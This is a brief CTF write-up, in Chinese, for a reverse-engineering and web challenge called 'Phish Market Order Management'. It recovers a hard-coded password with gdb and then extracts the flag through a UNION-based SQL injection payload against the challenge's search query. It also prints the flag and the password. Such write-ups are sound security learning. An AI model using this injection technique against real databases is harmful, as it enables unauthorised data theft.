


# rev - Phish Market Order Management Writeup

---  


## FLAG：
`INTIGRITI{w3b_ch4ll3n63_1n_d156u153}`

## 觀察：
- 執行檔案：先輸入密碼，接者可以發送SQL query搜尋資料。

## 思路：
- input會直接跟記憶體內的字串比對，可以用gdb動態分析取得正確的input。
- SQL query 會直接與`SELECT name, price FROM products WHERE name = '`串接後執行，可以利用SQL injection取得database裡的FLAG。

## 目標：
- 找出密碼
- SQL injection

## 步驟：
1. gdb attach到docker裡的`./market`程序，找出密碼為`N3v3RG0nn@6u3$$!`。
2. 連接題目主機，輸入密碼後進行SQL injection：`' UNION SELECT flag, 1 FROM admin -- -`。

## Exploit：  

```
N3v3RG0nn@6u3$$!
1
' UNION SELECT flag, 1 FROM admin -- -
```

